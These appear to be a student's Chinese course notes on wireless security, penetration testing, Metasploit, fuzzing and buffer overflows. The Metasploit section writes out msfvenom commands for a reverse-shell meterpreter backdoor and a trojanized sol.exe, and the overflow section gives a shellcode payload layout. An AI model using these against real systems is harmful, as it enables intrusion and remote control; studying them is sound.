AP周期性发送Beacon帧，用于宣布其网络的存在和网络参数。
**STA**发送Probe Request帧主动**探测**某个AP。
**STA**发送**认证请求**，AP回复认证响应。
如果通过认证，**STA**发送**关联请求**，AP回复关联响应，实现STA和AP的关联。
STA和AP之间传输数据帧。

:yum:802.11中MAC帧可划分为三种类型，分别是control、data和management

**控制帧**：用来**控制对通信媒体的访问**。

**数据帧**：**携带上层协议数据**（如IP数据包）。

**管理帧**：用于**管理无线网络**，如节点的加入和退出无线网络等。

802.11 MAC帧格式：**MAC Header**（控制，时长，地址），**Frame Body**（数据），**FCS**（保证帧数据完整）

:yum:常见管理帧

AP通过定时发送**Beacon帧**来**声明**某个无线网络

STA用**Probe Request帧**来**搜索**周围的无线网络

AP收到Probe Request帧后，会以**Probe Response帧**进行**响应**

当STA要关联某个AP时，发送**Association Request帧**。

针对Association Request帧，AP会回复一个**Association Response帧**来**通知**关联请求的处理结果

**Authentication帧**用于进行身份**认证**

地址字段：

Receiver Address（RA）：用于描述接收MAC数据帧的**接收者**地址，可以是STA或者AP。
Transmitter Address（TA）：用于描述将MAC数据帧**发送到无线媒介的实体**的地址，可以是STA或者AP。
Destination Address（DA）：用于描述MAC数据帧**最终接收者**（final recipient），可以是单播或组播地址。
Source Address（SA）：用于描述**最初发出**MAC数据帧的STA地址。一般情况下都是单播地址。

## 2.WEP

WEP（Wired Equivalent Privacy），即**有线等效保密**，目的是达到和有线网络相同的安全性。

身份认证，保密性，完整性

**MSDU**：MAC Service Data Unit
**MPDU**：MAC Protocol Data Unit

MSDU经过处理后，会封装在MPDU中。

**仅对数据帧进行加密**

无MSDU的帧无需加密，如：管理帧，控制帧，空帧（无数据字段）

:yum:**过程**

生成**24bit随机数作为IV**，**与WEP Key组合**作为**RC4算法**的输入，产生**密钥流**；**IV**随数据帧以**明文方式**发送。
对需要加密的数据应用**CRC-32生成ICV**，**追加该ICV到明文数据后面**。
将2的数据**与**1的**密钥流做XOR运算**生成密文。
将IV添加到密文前面作为Frame body封装成帧并发送。

IV+key->RC4 seed

RC4->生成密钥流

CRC-32->生成校验码

 

:yum:缺点

RC4: FMS attack*

同一网络下的STA可相互窃听流量：**相同的WEP Key，明文传输 IV**

## 3.WPA原理

**TKIP** : 临时密钥完整性协议(Temporal Key Integrity Protocol)

对照WEP，改变的地方包括：
1、WEP Seed的生成
2、Plaintext MPDU
3、帧封装。WEP在MAC Header后面紧随4-octet的IV字段，然后是加密的MSDU||ICV；TKIP的MAC Header后面紧随8个octet的(IV||Extended IV)，然后是加密的MSDU||MIC||ICV。

TKIP：Plaintext **MPDU**生成：输入：
Plaintext **MSDU**: 未加密的MSDU
**MIC Key**: 它是从TK中取出来的指定64位
**SA**(source address)：指发送端的MAC地址
**DA**(destination address):指接收端的MAC地址

TKIP除了保护MSDU数据，还保护了SA、DA，虽然这个两个数据也在MAC头部中明文传输，但是TKIP的处理方法确保了SA和DA不会被篡改。

 

## 4.RSNA

Robust Security Network Association（**RSNA**）：**强健安全网络关联**

WEP：所有STA使用相同的WEP Key进行数据加密。安全性较差。

RSNA：关联后，**不同STA和AP之间使用不同Key进行数据加密**，即：**Pairwise  Key**

:yum:802.1x受控端口/非受控端口：

认证者设备为客户端提供接入局域网的端口，这个端口被划分为两个逻辑端口：受控端口和非受控端口。任何到达该端口的帧，在受控端口与非受控端口上均可见。

**非受控端口**<u>*始终*</u>处于双向连通状态，主要用来传递EAPOL协议帧，保证客户端始终能够发出或接收认证报文。

**受控端口**在<u>*授权*</u>状态下处于双向连通状态，用于传递业务报文；在非授权状态下禁止从客户端接收任何报文。

### 1）密钥管理

  

密钥用途：

KCK: 用于计算WPA EAPOL-Key消息中的MIC
KEK: AP用KEK加密发送给STA的附加数据，在Key Data字段，比如EAPOL-key消息中的GTK信息字段
TK： 用于加/解密单播数据帧
Tx: 用于计算AP发送的单播数据帧的MIC
Rx: 用于计算STA发送的单播数据帧的MIC
 

### 2）4-WAY HANDSHAKE

 

  

**计算MIC**:以802.1x的所有字段作为HMAC函数的输入，计算时MIC字段设置为0。
对WPA，所采用的哈希函数是**MD5**(128bits)
对WPA2，所采用的哈希函数是**SHA1**(160bits)

:yum:ANonce是以明文方式传送的，如果**ANonce被攻击者篡改**了，会有什么后果？密钥建立过程会成功吗？

如果ANonce被修改了，会导致STA和AP计算出的PTK不一致，从而KCK不一致，最终导致计算出的MIC不能通过验证。标准规定，如果接收方的**MIC验证没有通过**，则对应的**消息必须丢弃**。因此，虽然攻击者能够修改ANonce，但是握手过程不会成功。

此外，作为一种额外的防御措施，**第三个握手包也包含了ANonce**。接收方必须验证在第三个握手包中的ANonce和第一个握手包里面的ANonce是一样的，而第三个握手包是通过MIC保护的EAPOL-key帧，因此如果第三个握手包通过MIC验证则表示传输的ANonce是没有被篡改，进而如果第三个握手包中的ANonce和第一个握手包中的ANonce一致，则表示第一个握手包中的ANonce是正确的。

## 5.WPA2原理

### 1）CCM

CCM是Counter mode with CBC-MAC的简称，即带CBC-MAC的计数器模式**对称加密**。CCM是一种通用的认证加密**分组密码**模式，仅定义为使用128比特的分组长度，比如采用AES。

:one:签名（authentication）

首先需要构造以下分组模式：B_0||附加认证数据分组||明文数据分组

然后应用CBC-MAC处理上述分组序列：
X_1 := E(K, B_0)
X_i+1 := E(K, X_i XOR B_i) for i=1,...,n
**T := first-M-bytes(X_n+1)**     T即为MAC值

 

:two:加密（encryption）

加密过程是采用CTR模式，首先构造A_i，然后从A_i生成密钥流分组为：S_i ：= E(K,A_i)，其中i为0，1，2，……

   

注意：**S_0没有用于加密消息，S_0用于计算认证值。**
计算认证值U：
U := T XOR first-M-bytes( S_0)
即对T用S_0的前M个字节进行XOR运算。
T是CBC-MAC的输出。

最后的输出C：加密消息和紧随其后的加密的认证值U

### 2）CCMP

**基于CCM**。**AES**，128bit

CCMP输入：

MAC header：802.11 MAC 头部

plaintext Data(MSDU):  需要发送的payload

**PN(**packet number): 长度48bit，与TKIP中的TSC（TKIP Sequence Counter ）相似，是每个帧的标识，它会随着帧的发送过程不断递增，用于抗重放攻击。

TK(Temporal Key)：和TKIP加密一样，CCMP也有一个128bit的TK。

Key ID: 和TKIP中的一样，用于指定加密用的key，这个ID是index的缩写。

**Nonce**：是一个随机数，长104bit，是由**PN** (packet number，48bit), **Qos**中的优先级字段（8bit）和**TA**(Transmitter Address , 48bit)这三个字段组合来。

**AAD** （Additional Authentication Data ）：由MPDU头部的部分字段构建而来，用于**确保MAC头部的数据完整性**，接收端会使用这个字段来校验MAC头部。


1、需要发送一个新的MPDU时，会重新创建一个48bit的**PN**；如果是重传的MPDU，则使用原来发送MPDU的PN。

2、使用MPDU的头部构建**AAD** (Additional Authentication Data)

3、由PN(packet number，48bit), Qos中的优先级字段（8bit）和TA(transmitter address , 48bit，Address 2)这三个字段组合生成一个**Nonce**。

4、构建8-octet **CCMP 头部**，这个头部由Key ID 和PN构成，PN又被分成6个字段。

5、使用Temporal Key, AAD, Nonce, 和MPDU data 作为CCM算法输入，生成8个字节的MIC和加密的MSDU。

6、 在MAC Header后面追加CCMP Header，然后是加密的**MSDU和MIC**，接下来的是FCS，构成安全处理过后的帧。


## 6.无线局域网攻防

攻击1：**DeAuth**

**伪装成**目标AP**已关联的设备**，向AP发送Deauthentication**解除认证帧**，造成设备掉线，从而达到**拒绝服务**的目的。

攻击手段2：**AuthDos**

通过随机生成大量mac地址，伪装设备向AP发送**大量Authenticattion请求帧**，使请求数量超出AP承载能力，从而造成**拒绝服务**攻击，使正常用户无法连接AP。

攻击3：**关联洪水攻击**

关联洪水攻击，又称**asso攻击**，主要针对空密码或**已破解密码的WLAN**，伪造大量设备关联请求，淹没AP的关联表，使正常用户无法与AP建立关联

攻击4：**RF jammingAttack**

不针对管理帧的漏洞，而是对无线信号进行干扰，用**噪声信号**淹没射频信号导致系统失效。这种干扰会影响到一片区域内指定频带范围的信号。

# 六.渗透测试

## 1.情报搜集技术

### 1）间接信息搜集

:yum:whois查询

whois是一个协议（RFC3912），也是一个命令，用来查询互

联网资源的**注册用户**（或者是持有人）的相关信息，如：域名，IP地址，自治系统

https://whois.aliyun.com/ 阿里云-万网

:yum:nslookup

nslookup命令用于查询域名系统来获取**域名与IP地址之间的映射**或者其它DNS记录

非交互式模式：nslookup NAME，nslookup NAME1 NAME2

交互式模式：nslookup

:yum:IP Geolocation

确定一个IP地址对应**物理节点的地理位置**

:yum:Google hacking

双引号”（半角）：搜索结果包含引号中的内容（“Login” “password” filetype: xls）

减号-：搜索结果不包含减号后面的内容

星号*：模糊匹配某些内容

filetype：显示满足文件类型要求的搜索结果（filetype:pdf）

site：显示满足网站名称要求的搜索结果（site:uestc.edu.cn）

inurl：搜索结果的URL中要求包括指定的关键词（inurl:uestc）

allinurl：仅显示url中包含指定关键词的搜索结果（可使用多个关键词）

:yum:网络空间搜索引擎

Shodan，知道创宇：Zoomeye，白帽汇：Fofa，360安全大脑:Quake网络空间测绘系统

### 2）网络扫描（交互式信息收集）

网络扫描的基本目的是**探测目标网络**，以找出尽可能多的活跃主机，然后再进一步<u>探测目标OS类型、存在的安全弱点</u>等信息，为下一步攻击选择恰当目标和通道提供支持。

#### :yum:**主机扫描**

**目的：**通过对**目标网络IP地址范围**进行自动化的扫描，确定这个网络中都存在哪些活跃的主机与系统

ICMP：使用**ICMP Ping**扫描，**ICMP Echo Request**->**ICMP Echo Reply**

TCP1：使用**TCP ACK Ping**扫描，**只有ACK标志**的TCP数据包->TCP **RST数据包**

TCP2：使用**TCP SYN Ping**扫描，**SYN标志**的数据包->**RST**(不开放)/**SYN、ACK**(开放)

UDP：使用**UDP协议**，**UDP**->**ICMP端口不可达的消息**(不开放)/无响应(开放)----所以要**选不开放的端口来发送**以探测

namp网络扫描工具：nmap [Scan Type(s)] [Options] {target specification}

-p选项指明了要对哪些端口进行测试，-sn:Ping，-PE:Echo，-PS:TCP SYN，-PA:TCP ACK,-PU:UDP

主机扫描防范措施：入侵检测，防火墙

非军事化区（DMZ）：为了解决安装防火墙后外部网络不能访问内部网络服务器的问题，而设立的一个**非安全系统与安全系统之间**的缓冲区

#### :yum:**端口扫描**

端口扫描：是一种用来确定目标主机**TCP端口和UDP端口状态**的方法。开放某个端口，意味着提供某种网络服务。

TCP **connect**：如果目标端口开放：完成**完整的TCP三次握手**，(SYN, SYN|ACK, ACK)，timeout/RST（无需特权用户，易检测）-sT

TCP **SYN**：如果目标端口开放：攻击者SYN, 目标主机SYN|ACK, 攻击者**立即反馈RST包**关闭连接（需特权用户构造SYN，较隐蔽）-sS

隐蔽端口扫描：通过构造**特殊的TCP标志位**，以躲避检测，同时达成端口扫描目的。通常可以穿越防火墙。(FIN扫描[只带FIN位], NULL扫描[全为0], XMAS扫描[ACK/FIN/RST/SYN/URG/PSH标志位全1],FTP弹跳扫描：利用FTP代理功能达到隐蔽源地址)

端口扫描防范措施：:one:网络管理员利用端口扫描确定开放必要服务（**关闭非必要端口**），:two:**扫描检测工具**: scanlogd, PortSentry, Genius，:three:端口扫描的防护：开启**防火墙**

#### :yum:**操作系统/服务类型探测**

**目的：**探测活跃主机的**操作系统及开放网络服务的类型**

**原理：**基于操作系统类型和版本**实现机制上的差异**

**CPE**（Common Platform Enumeration）是一个标准化的命名系统，用于**标识**和**分类**计算机**硬件**、**操作系统、应用程序等各种软件**和**硬件平台**。

主动协议栈指纹鉴别：nmap -O TargetIP

```
CPE 2.3 格式

◆ cpe:/{part}:{vendor}:{product}:{version}:{update}:{edition}:{language}

◆ part：描述平台的类别。常见的值有： a：应用程序；o：操作系统；h：硬件

◆ vendor 厂商名称

◆ product 产品名称

```

网络服务主动探测: nmap -sV

```c
扫描结果报告：STATE字段：
Open：端口处于开放状态
closed：端口处于关闭状态
filtered：由于报文/*无法到达指定的端口*/，nmap无法确定指定端口的开放状态，这主要是由于网络或者主机安装了/*防火墙*/所导致的。
unfiltered：当nmap不能确定端口是否开放的时候所打上的状态。这种状态和filtered的区别在于：unfiltered的/*端口能被nmap访问*/，但是nmap根据返回的报文/*无法确定端口的开放状态*/，而filtered的端口直接就不能够被nmap访问。端口被定义为Unfilterd/*只会发生在进行TCP ack扫描时，返回RST的报文*/。

```

**nmap输出控制**

命令行：nmap -O scanme.nmap.org -oN os-scan.txt。-oN（N表示Normal）表示将输出写入指定文件

命令行：nmap -O scanme.nmap.org -oX os-scan.xml。-oX 输入到XML文件中

**nmap扫描速度控制**

nmap可以进行扫描速度控制，提供了6级扫描速度控制，不同的扫描速度会对IDS产生不同的影响，也就是**速度越快越容易被检测到**

-T0,-T1,-T2,-T3,-T4,-T5

高性能扫描：Zmap，Masscan

### 3）网络流量分析

流量**嗅探作用**：

:one:攻击者：内网渗透，窃取机密信息，为发起进一步攻击收集信息

:two:防御者：管理员可以通过流量嗅探来分析网络流量。如：定位网络故障、为网络入侵检测系统提供底层数据来源等

:three:开发网络应用的程序员可以监视程序的网络行为，排除程序错误

流量**嗅探原理**：

交换机毒化，MAC欺骗，ARP欺骗，交换机镜像端口

流量**分析流程**：

嗅探获得数据（帧）→IP报文分析（分片重组）→流跟踪（IP报文，5元组）→会话重组→应用层协议分析（协议识别、内容提取……）

## 2.漏洞扫描技术

**漏洞**一般指硬件、软件或策略上存在的的安全缺陷，从而使得攻击者能够在**未授权**的情况下访问、控制系统

**CVE**：安全漏洞**命名索引**的业界事实标准。

1）Nessus：闭源，综合

2）OpenVAS：开源，综合

3）AWVA：闭源，Web漏扫

**漏洞扫描防范措施**：

:one:及时**修补漏洞**

:two:检测和**防御漏洞扫描行为**：部署网络入侵检测系统: Snort；配置防火墙规则缩小攻击面

:three:**渗透测试**

## 3.Metasploit框架

### 1）MSF简介

**MSF**(Metasploit Framework)：开源渗透测试工具

### 2）MSF的用法

攻击的基本套路：

1. search：搜索模块或者漏洞相关的信息

2. use：加载某个模块

3. show options：查看于当前模块相关的选项（show payloads）

4. set：设置选项（set payload ````）

5. run/exploit：运行模块

### 3）msfvenom

Metasploit框架下的独立程序，用于**生成载荷**

```c
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python
◆/*体系结构-a*/为x86
◆/*平台--platform*/为Window
◆/*载荷-p*/为windows/shell/bin_tcp
◆/*编码器-e*/为x86/shikata_ga_nai
◆/*要避免的字符-b*/为\x00
◆编码/*迭代次数-i*/为3
◆/*输出格式-f*/为python
```

```c
msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b '\x00' -f exe -o sol_bdoor.exe
◆体系结构为x86，平台为Window
◆以可执行文件sol.exe作为/*模板-x*/
◆保持模板的正常行为
◆载荷为windows/messagebox
◆要避免的字符为\x00
◆输出格式为exe
◆输出为可执行文件sol_bdoor.exe
```

```c
msfvenom -a x86 --platform Linux /*-p linux/x86/meterpreter/reverse_tcp*/ LHOST=192.168.56.103 LPORT=8848 -f elf -o backdoor
对应：
msf > use exploit/multi/handler
msf exploit(multi/handler) > /*set payload linx/x86/meterpreter/reverse_tcp*/
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.103
LHOST => 192.168.56.103
msf exploit(multi/handler) > set LPORT 8848
LPORT => 8848
msf exploit(multi/handler) > exploit
```

### 4）meterpreter

Meterpreter是Metasploit框架中的一个扩展模块，可以作为溢出成功以后的**攻击载荷**使用（如上），能够获得目标系统的一个Meterpreter shell的连接。

### 5）shellcode过程

```c
1.msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=8848 -f c -o metershellcode.c
2.gcc -m32 -z execstack -o a32.out call_shellcode.c
3.a32.out
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linx/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.103
msf exploit(multi/handler) > set LPORT 8848
msf exploit(multi/handler) > exploit
```

# 七.软件安全

## 1.模糊测试

### 1）模糊测试概述

测试用例（Test case)：用于验证软件功能**是否符合需求**的一组**输入**、**执行条件**和**预期结果**。

测试充分性（Test adequency)：评估测试质量的一个度量

**常见覆盖率指标**：**语句覆盖率**，**行覆盖率**，**边覆盖率**，**路径覆盖率**，**条件覆盖率**

**Fuzzing**：**随机输入**，**黑盒测试**(只检查程序的最后结果)，保存触发**非预期结果**的输入

手写Fuzzer?

### 2）现代模糊测试

:one:模型无关：通过蛮力方式生成输入（随机插入、删除、拼接）

:two:基于模型：遵循一个预定义的输入规范

:three:白盒方式

### 3）AFL++模糊测试框架

#### :yum:AFL++概要

**覆盖率引导的模糊测试**：AFL++ 使用覆盖率反馈来指导输入的变异过程。通过监控程序执行路径，它可以优先选择那些引起新代码路径的输入，从而提高漏洞发现的效率。

**增强的输入变异策略**：增加了<u>*多种输入变异策略，如Havoc、Splice、Trim等*</u>，使得输入的多样性和变异深度显著增加，能够更有效地探索程序的不同执行路径。

**Havoc**是AFL++引入的一个高级随机变异策略。它通过**随机组合多种基本变异操作**（如字节翻转、字节插入、删除、替换等）在种子测试用例上进行大量快速随机变异；

**Splice**是一种将两个**不同的种子输入进行交叉混合**的变异策略。它通过将两个现有的测试用例拼接起来，生成新的测试用例。这种策略的目的是通过保留两个有价值种子输入的特性，创造可能触发更多代码路径的新输入。

**Trim**是AFL++用来精简测试用例输入大小的策略，目的是通过**裁剪不必要的输入**部分来减少冗余数据，从而提高模糊测试的效率和种子库的质量。

#### :yum:AFL++基本用法

:zero:afl-fuzz [ options ] -- /path/to/fuzzed_app [ ... ]

◆--分隔afl-fuzz的命令行参数和被测程序

:one:被测程序通过stdin获取输入，例如：scanf(), fgets()，read()等

◆**afl-fuzz** -i input_dir -o output_dir **--** ./my_program

:two:被测程序需要一个文件路径作为命令行参数时

◆afl-fuzz -i /input_dir -o output_dir -- ./my_program **@@**

◆@@是一个占位符◆执行模糊测试时，AFL++ 会用生成的测试输入文件路径替换 @@

afl-cmin是AFL++工具包中的一个工具，用于最小化**测试用例集合**。(减少测试用例集的大小)

afl-tmin 是AFL++工具集中的一个工具，用于最小化**测试用例**。(文件的体积和复杂性最小化)

afl-addseeds 是 AFL++ 工具集中的一个实用工具，用于将**额外的种子输入**添加到现有的模糊测试队列中。（-i 为种子目录）

afl-analyze 是 AFL++工具集中的一个工具，用于分析模糊测试的**覆盖率**信息。

afl-plot是AFL++工具集中的一个工具，用于生成模糊测试过程中的**图形化报告**和可视化数据。

## 2.常见二进制漏洞

### 1）X86汇编

X86汇编语言中,一条语句由**一个指令助记符**，**零个或者多个操作数**构成

操作数：立即数(0x42)，寄存器(ecx)， 内存地址([ecx+0x20])

**通用寄存器**：EAX，EBX，ECX, EDX

**指令指针**：EIP（保存了程序将要执行的**下一条指令**在内存中的地址。）

EBP：基址指针寄存器，存储当前**栈帧**的**顶部**地址（最高地址）

ESP：栈指针，存储当前**栈帧**的**底部**地址（最低地址）

```assembly
mov destination,source  #将s复制给d
lea destination, source  #将s加载给d
add destination, value  # d=d+v ,即会更改d的值
push
pop
call memory_location  #当前指令指针压栈，跳转到call的地址(push eip;jmp call_location)
leave  #将栈顶地址复制到栈底，然后将其出栈(leave=mov esp, ebp; pop ebp)
ret  #(pop eip；jmp eip)
```

### 2）gdb程序调试

```shell
gdb 可执行文件名  #调试指定的可执行文件
gdb -p pid  #调试一个运行的进程
break/b main  #在function处设置一个断点
b *0x080484ee  #在指定位置设置断点
b 34  #在代码低34行设置断点
delete N  #表示删除断点N
delete #表示删除所有断点
clear N #表示清除行N上的所有断点
run/r  #启动被调试的程序
next/n  #非进入式（不会进入到所调用的子函数中）单步执行
step/s  #进入式（会进入到所调用的子函数中）单步执行。进入函数的前提是，此函数被编译有debug信息
continue/c  #继续往下运行，直到再次遇到断点或程序结束
print/p variable_name  #显示变量的值
```

```shell
#设置命令行参数
r arg1 arg2 arg3  #每次运行均需要给出后面的参数设置
set args arg1 arg2 arg3  #设置一次，后面可用重复使用
```

```shell
#反汇编
disassemble function-name/disas function-name  #反汇编 disas main
disas/m function-name  #带源码的反汇编 disas/m main
```

```shell
#查看内存
x/<n/f/u> <addr>  # n:要显示的内存单元的个数，f:显示的格式，u:将多少个字节作为一个值取出来,不指定默认是4个字节
#f:x-十六进制，d-十进制，u-无符号十进制，o-八进制
#u:b-单字节，h-双字节，w-四字节，g-八字节(byte,halfword,word,gaintword)
x/100x $esp  #显示100个内存单元，十六进制，四字节一个单元
x/100xb $esp  #显示100个内存单元，十六进制，一字节一个单元
```

```shell
#GEF插件的命令
context  #显示调试的当前上下文，包括寄存器、堆栈、汇编代码、线程等信息
checksec  #检查目标二进制文件的安全保护机制（如 PIE、NX、Canary、RELRO 等）
process-status  #显示当前被调试程序的进程状态信息，比如进程ID、线程数、网络连接等
elf-info  #显示被调试文件的elf信息
hexdump $esp  #以十六进制格式显示esp内存内容
heap chunks  #显示程序堆中的内存块（chunks）的列表，包括它们的地址、大小以及状态（allocated/free）
vmmap  #显示进程的虚拟内存映射情况，显示哪些内存段可读、可写、可执行。
pattern create [-h] [-n N] [length]  #创建指定长度的周期字符串
```

### 3）进程内存空间布局

  

进程地址空间的最上segment是**栈**，用于存放**局部变量和函数参数**。

在 栈 的 下 面 是 **内 存 映 射 段** （ memory mappingsegment），内核把文件内容直接映射到这里。在linux上，如果你用malloc()来请求**一大块**的内存，则会创建匿名内存映射而不是使用堆区

**堆区**提供运行时的内存分配，也就是动态内存分配。对于C语言而言，通过调用malloc()函数及其它对应的变体（calloc(), realloc()）来进行堆区存储分配。

**BSS**存放<u>*未初始化*</u>的**全局变量或者静态变量**，也就是在源代码中未被程序员赋值的变量。比如：static int cntActiveUsers；

而<u>*初始化*</u>的**全局变量或者静态变量**则存放在**Data**区，如：static int cntWorkerBees=10;

**代码段（**code segment/text segment）通常是指用来存放程序执行代码的一块内存区域

### 4）函数调用栈

**变量的布局**：

如果编译时不使用优化功能，局部变量总是在栈上分配空间

存放在**栈帧中的单个局部变量**，**第一个变量**存放在栈帧中地址**最高**的空间

存放**结构体**变量时，其**第一个成员**存放在**最低**地址

**全局变量**存放时，第一个全局变量存放在**最低**地址

 

函数调用栈：太复杂见ppt

### 5）缓冲区溢出（BOF）

```c
void vulnerable(void) 
{
char name[20];
gets(name);
}
int main(void) 
{
vulnerable();
return 0;
}
```

如果攻击者想执行位于地址**0xdeadbeef**的指令，攻 击 者 如 何 构 造 输 入 给gets函数？

gets函数从name最下方开始写数据，可以覆盖在这之上的全部空间，包括RIP

**BOF攻击关键！！！**需要用shellcode的地址覆盖RIP

   

:yum:输入：**SHELLCODE** **+** **'A' \* 12** **+** **'\x40\xcd\xff\xbf'**

◆ 12 字节**shellcode**

◆ 12 字节任意数据覆盖name的余下空间和SFP（**垃圾**）20-12+4=12垃圾

◆ 4字节的**shellcode地址**

➢注意地址是以小端格式书写（**倒序**）

1位十六进制=1字节

 

:yum:如 果 **shellcode 太 大** ， 无法存放在name[] 数 组 ， 怎 么 处 理 ？ 例 如shellcode为28-字节

解决方案：把shellcode置于RIP之后

◆ 因为gets()函数能够让我们向上覆盖足够多的数据

 输入: **'A' \* 24** **+** **'\x5c\xcd\xff\xbf'+ SHELLCODE**（20+4=24垃圾）

 

**BOF攻击对策**

**ASLR**(Address Space Layout Randomization)

◆**地址空间布局随机化**，通过随机化安排进程关键数据的地址，如可执行文件的基址，栈的地址，堆的地址，导致无法可靠跳转到恶意代码。是操作系统的一个功能

### 6）**其它内存安全漏洞**

**格式化字符串漏洞**：对于printf()、sprint()、fprintf()这类使用格式化字符进行输出格式化的

函数，如果程序中调用此类函数且**允许用户输入的字符串直接作为格式化字符串**，则可能造成程序读或者写非法的区域，导致信息泄露或者控制流劫持。

**整数类型转换漏洞**：当一个整数从一种类型转换为另一种类型时，如果**目标类型无法正确表示原值**，可能会导致数据丢失或不正确的值被存储，从而引发安全问题。

**Out-of-bounds read**：openssl中对这部分功能的实现存在一些问题，在处理输入数据时没有进行适当的**边界检查**，从而导致内存中的**任意数据被读取**。这就是著名的heartbleeding漏洞。

**竞态条件漏洞**：Race Condition（竞态条件）漏洞是一种并发场景下出现软件安全漏洞，当多个线程或进程在没有正确同步的情况下访问共享资源时，可能导致的安全漏洞。